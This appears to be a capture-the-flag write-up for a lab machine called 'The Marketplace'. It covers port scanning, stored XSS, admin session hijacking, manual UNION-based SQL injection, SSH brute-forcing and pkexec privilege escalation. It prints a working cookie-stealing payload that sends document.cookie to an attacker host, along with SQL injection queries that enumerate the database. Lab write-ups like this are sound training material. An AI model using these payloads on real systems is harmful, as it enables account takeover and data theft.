# Port Scanning
```bash
❯ rustscan -a 10.49.138.165 -- -A

Open 10.49.138.165:22
Open 10.49.138.165:80
Open 10.49.138.165:32768

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLpdKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZbCYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3LRhxbF1
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPAuPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
80/tcp    open  http    syn-ack ttl 61 nginx 1.19.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
32768/tcp open  http    syn-ack ttl 61 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (91%), Linux 5.14 - 6.8 (91%), Linux 5.4 - 5.15 (90%), Linux 4.15 (88%), Crestron XPanel control system (86%), Linux 3.8 - 3.16 (86%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
```
Visited the website first and then create a new account and logged in to the account. There I found a page takes new listing. I create a random title and description about the list. And submit it.  <br/>
Then comes another pare with two option. One of them is report to admin. By clicking report to admin comes the confirm page and the request is sent to the admin. Admin reviews it and sends a reply. <br/>
So I tried for XSS. If it is possible then I can steal the admin cookie. <br/>
Using basic XSS payload. I tested for XSS. <br/>
 <br/>
Both of the fields are vulnerable to XSS. <br/>
 <br/>
 <br/>
 <br/>
The I used the XSS cookie stealing payload. <br/>
```url
<script>document.location='http://<attacker_ip>:9999/c='+document.cookie</script>
```
And create a new list with this. <br/>
*Note: The site may show 500 server error. But from I can check my list.* <br/>
Then I report for the list. And from my listener I got the admin cookie. <br/>
 <br/>
 <br/>
 <br/>
Replaced my cookie with the admin cookie. And in the admin pannel I found the first flag. <br/>
 <br/>
Clicking one of the user: <br/>
 <br/>
I placed a `'` and got the SQLI. <br/>
 <br/>
First I tried several time with `sqlmap` but failed. So I have to go with manual exploitation. And one more thing `user=` in this parameter place larger number than existing user. <br/>
##### Database name:
```txt
user=5 UNION SELECT database(),GROUP_CONCAT(schema_name),3,4 FROM information_schema.schemata--
```
 <br/>
##### Tables of marketplace DB
```txt
user=5 UNION SELECT database(),GROUP_CONCAT(table_name),3,4 FROM information_schema.tables where table_schema=database()--
```
 <br/>
##### Columns from table user 
```txt
user=5 union select database(),group_concat(column_name),3,4 from information_schema.columns where table_name='users'-- -
```
 <br/>
##### Columns from table messages
```txt
user=5 union select database(),group_concat(column_name),3,4 from information_schema.columns where table_name='messages'-- -
```
 <br/>
##### Check the messages 
 <br/>
From the messages I found the ssh password. <br/>
As there was total 3 users. So I bruteforce the ssh for correct user. <br/>
 <br/>
Using the username and password I logged in. And found the 2nd flag. <br/>
 <br/>
# Privilege Escalation
I ran `linpeas.sh` and found that it has pkexec vulnerability.  <br/>
 <br/>
Abusing this I got root shell. <br/>
 <br/>